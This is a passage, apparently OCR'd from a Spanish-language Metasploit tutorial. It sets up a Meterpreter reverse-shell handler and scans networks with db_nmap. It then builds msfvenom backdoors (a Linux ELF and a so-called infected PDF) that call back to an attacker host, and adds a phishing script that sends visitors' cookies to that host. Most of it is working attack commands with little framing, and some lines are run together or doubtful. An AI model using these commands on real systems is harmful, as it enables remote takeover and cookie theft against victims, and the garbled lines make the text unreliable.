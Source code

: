# Configurar handler en msfconsole
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf6 exploit(...) > set LHOST 192.168.1.10
msf6 exploit(...) > set LPORT 4444
msf6 exploit(...) > run

Al ejecutar shell.exe, obtendrás una sesión Meterpreter:

[*] Meterpreter session 1 opened (192.168.1.10:4444 → 192.168.1.20:1234)

4. Recopilación de información

Descripción: Escaneo de puertos y detección de vulnerabilidades con Nmap y Nessus.

# Escaneo rápido de puertos TCP
msf6 > db_nmap -sT -p 1-1000 192.168.1.0/24

# Escaneo con scripts de vulnerabilidad
msf6 > db_nmap -sV --script vuln 192.168.1.105

Ver resultados:

msf6 > hosts    # Hosts descubiertos
msf6 > services # Servicios y puertos
msf6 > vulns    # Vulnerabilidades detectadas

Para importar un informe de Nessus:

msf6 > db_import /ruta/a/nessus_report.xml

5. Ataques del lado del cliente

Descripción: Generar troyanos y documentos maliciosos.

# Backdoor Linux x86\ nmsfvenom -p linux/x86/meterpreter/reverse_tcp \
        LHOST=10.0.0.5 LPORT=5555 \
        -f elf -o backdoor.elf

# Virus PDF para Windows
msfvenom -p windows/meterpreter/reverse_tcp \
        LHOST=10.0.0.5 LPORT=5555 \
        -f pdf -o doc_infectado.pdf

Phishing: clona la página, añade un <script> para capturar cookies:

<script>
  new Image().src = "http://10.0.0.5:8080/collect?cookie=" + document.cookie;
</script>
